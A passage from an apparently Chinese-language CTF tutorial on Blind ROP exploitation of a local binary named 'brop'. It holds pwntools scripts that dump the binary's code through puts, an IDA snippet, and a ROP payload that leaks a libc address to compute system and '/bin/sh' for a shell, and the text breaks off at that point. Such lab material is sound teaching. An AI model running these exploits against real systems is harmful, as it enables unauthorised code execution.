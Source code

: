```plain
##stop_gadget = getStopAddr(buffer_length)
stop_gadget = 0x4006c0
##brop_gadget = find_brop_gadget(buffer_length,stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = GetPutsPlt(buffer_length, rdi_ret, stop_gadget)
puts_plt_addr = 0x400555
addr = 0x400000
result = ""
while addr < 0x401000:
    print hex(addr)
    data = leak(buffer_length, rdi_ret, puts_plt_addr, addr, stop_gadget)
    if data is None:
        continue
    else:
        result += data
    addr += len(data)
with open('code', 'wb') as f:
    f.write(result)
```

```plain
seg000:0000000000400555                 or      bh, bh
seg000:0000000000400557                 and     eax, 0A200AB4h
seg000:000000000040055C                 nop     dword ptr [rax+0Ah]
seg000:0000000000400560                 jmp     qword ptr cs:0A601018h#puts函数的got地址
```

具体IDA操作方法见链接：[https://www.freesion.com/article/32791039584/#\_1](https://www.freesion.com/article/32791039584/#_1)

7、通过 leak 到的 got 地址，**找到对应 libc 版本**，通过 libc 执行系统命令进行 **getshell**

```plain
#-*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import LibcSearcher
#context.log_level = 'debug'
#context.arch = 'i386'/'amd64'

p = process('./brop')

buffer_length   = 72
stop_gadget = 0x4005c0
brop_gadget = 0x4007ba
pop_rdi_ret  = brop_gadget + 9
puts_plt_addr = 0x400555
puts_got_addr = 0x601018

p.recvuntil('Do you know password?\n')

payload  = 'a' * buffer_length
payload += p64(pop_rdi_ret) + p64(puts_got_addr) + p64(puts_plt_addr)
payload += p64(stop_gadget)

p.sendline(payload)
puts_addr = u64(p.recvuntil('\nWelCome my friend', drop=True).ljust(8, '\x00'))

libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')

#####################################################

system_addr = libc_base + libc.dump('system')
bin_sh_addr = libc_base + libc.dump('str_bin_sh')
```